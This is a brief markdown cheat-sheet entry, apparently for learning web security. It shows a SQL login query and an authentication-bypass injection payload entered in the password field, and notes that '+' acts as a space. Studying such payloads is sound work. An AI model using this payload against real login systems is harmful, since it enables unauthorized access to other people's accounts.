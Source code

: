 ----------------------------------
# SQL Injection

## Authentication Bypass Variant 1
### query:
SELECT * FROM users WHERE username='admin' AND password='pass'

### payload:
*username*:admin

*password*:pass' OR 1=1 -- +

**NOTE:** + is similar to space